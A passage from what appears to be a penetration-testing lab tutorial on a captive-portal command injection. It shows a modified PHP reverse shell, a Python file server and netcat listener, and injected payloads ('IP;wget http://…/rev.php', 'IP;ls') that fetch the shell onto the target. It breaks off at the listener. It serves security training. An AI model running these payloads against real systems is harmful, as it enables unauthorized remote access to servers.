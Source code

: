 <li>The PHP script responsible for rendering this code needs to not break or truncate our submission.</li>
<li>The www-data account needs to have write privileges within /var/www/html or wherever the root web directory resides. This is not at all uncommon.</li>
<li>If write access is prohibited, we needs to be able to daisy chain commands to get to another writable directory. We can discover these through cd ../ and ls</li>
</ol>
<p>Once we know a writable directory, we can attempt to transfer a reverse shell to the server. We first want to find a nice PHP reverse shell to utilize. We can find one <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php">here</a>.</p>
<p>We should then modify a portion of its contents to where we can catch the reverse shell, triggered by visiting the page on the web server.</p>
<pre><code class="language-shell-session">[!bash!]$ cat rev.php

&lt;snip&gt;
set_time_limit (0);
$VERSION = "1.0";
$ip = '200.200.200.78';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
&lt;/snip&gt;
</code></pre>
<p>At this point, we might be able to transfer this reverse shell to the server. We need to start our listeners which consist of:</p>
<ol>
<li>Our HTTP server that the target captive portal server will download this file from</li>
<li>Our netcat listener that will catch the reverse shell</li>
</ol>
<pre><code class="language-shell-session">[!bash!]$ python3 -m http.server 5555

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:5555/) ...
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ nc -nvlp 4444 

Listening on 0.0.0.0 4444 
</code></pre>
<p>Next, we execute the following payload to download the reverse shell (rev.php) from our attacking machine and save it on the target system:</p>
<pre><code class="language-payload">200.200.200.78;wget http://200.200.200.78:5555/rev.php
</code></pre>
<img class="website-screenshot" data-url="http://captive.htb.local" src="/storage/modules/299/xss/rev.PNG"/>
<p>After that, we use another payload to list the files and confirm that rev.php has been successfully uploaded:</p>
<pre><code class="language-payload">200.200.200.78;ls
</code></pre>
<img class="website-screenshot" data-url="http://captive.htb.local" src="/storage/modules/299/xss/003.PNG"/>
<p>From the output, we can confirm that the reverse shell (rev.php) has been successfully uploaded to the target system.</p>
<p>Now, by visiting the URL where our reverse shell (rev.php) is hosted: <code>http://captive.htb.local/rev.php</code>, we trigger the payload, establishing a reverse shell connection to our attacking machine.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nvlp 4444 
